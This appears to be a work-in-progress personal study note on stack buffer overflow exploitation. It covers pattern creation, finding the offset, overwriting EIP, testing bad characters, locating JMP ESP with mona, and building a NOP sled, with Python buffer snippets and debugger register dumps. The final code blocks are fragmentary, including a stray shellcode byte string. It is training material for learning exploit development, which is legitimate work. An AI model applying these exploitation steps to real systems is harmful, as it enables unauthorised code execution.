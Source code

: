## Buffer Overflow Methodology
### WORK IN PROGRESS
 
#### Enumeration 

-- Wireshark
-- nc
-- nmap 
-- requests

#### Fuzz

#### Patterns

Create a pattern to overwrite

```
msf-pattern_create -l <i.e 2560 or 0xA00>
```
Find the offset 
```
 msf-pattern_offset -l <i.e 2560 or 0xA00> -q <i.e 33794332>
```
Once the offset has been found. In this case 2288

#### Creating the inputBuffer 
```
filler = 'A' * 0x8f0 #2288   This is the space to write to get to EIP
eip = 'B' * 0x4      #4      This is the space we need to take over EIP
buffer = 'C' * 0x616 #268    This is for fun and games ;~)
This should equal 2560 as the original size of the pattern created. 
```

#### Extra Space
Depending on the app, extra buffer length may be required. This can be tested.

```
EAX 00000F0A
ECX 41414141
EDX 41414141
EBX 41414141
ESP 03CDEE6C ASCII "CCC..." 
EBP 41414141
ESI 41414141
EDI 41414141
EIP 42424242

03CDEE50   41414141  AAAA
03CDEE54   41414141  AAAA
03CDEE58   41414141  AAAA
03CDEE5C   41414141  AAAA
03CDEE60   42424242  BBBB EIP
03CDEE64   43434343  CCCC      #
03CDEE68   43434343  CCCC      # Here are 8 bytes before ESP is overwritten. This is where the 8byte offset originated from. 
03CDEE6C   43434343  CCCC ESP
03CDEE70   43434343  CCCC
```
Try to increae buffer length.

```
  filler = "A" * 0x8f0   
  eip = "B" * 0x4        
  offset = "C" * 0x8   
  buffer = 'D' * (1500 - len(filler) - len(eip) - len(offset))

  inputBuffer = filler + eip + offset + buffer 
  ```
ESP is now located at 

```
EAX 00001000
ECX 41414141
EDX 41414141
EBX 41414141
ESP 032BEE6C
```

#### Checking for bad characters
```
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10""\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20""\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30""\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40""\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50""\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60""\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70""\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80""\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90""\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0""\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0""\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0""\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0""\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0""\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0""\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

#BadChar 

try:
  print "\nSending fuzzy buffer..."

  filler = "A" * 0x8f0   
  eip = "B" * 0x4        
  offset = "C" * 0x8   
  #buffer = 'D' * (0x5376 - len(filler) - len(eip) - len(offset))

  inputBuffer = filler + eip + offset + badchars 
```
ESP - Follow in Dump and illiminate all the bad chars one by one untill you get to xff. Not pretty.

#### Execution Flow

!mona modules

!mona find -s "\xff\xe4" -m '<lib>'

In this case \xff\xe4\ is JMP ESP


Step into JMP ESP 

0x148010cf

Convert JMP ESP into litted endian.  

\xcf\x10\x80\x14

```
try:
  print "\nSending fuzzy buffer..."

  filler = "A" * 0x8f0   
  eip = "\xcf\x10\x80\x14"       
  offset = "C" * 0x8   
  e4ffer = 'D' * (0x5376 - len(filler) - len(eip) - len(offset))
  
 ```
```
"\x48\xe3\x60\x1e\xcb\x01\x19\xe5\xd3\x60\x1c\xa1\x53\x99\x6c"
    "\xba\x31\x9d\xc3\xbb\x13")

  filler = "A" * 0x8f0   
  eip = "\xcf\x10\x80\x14"       
  offset = "C" * 0x8   
  nops = "\x90" * 0x10
```
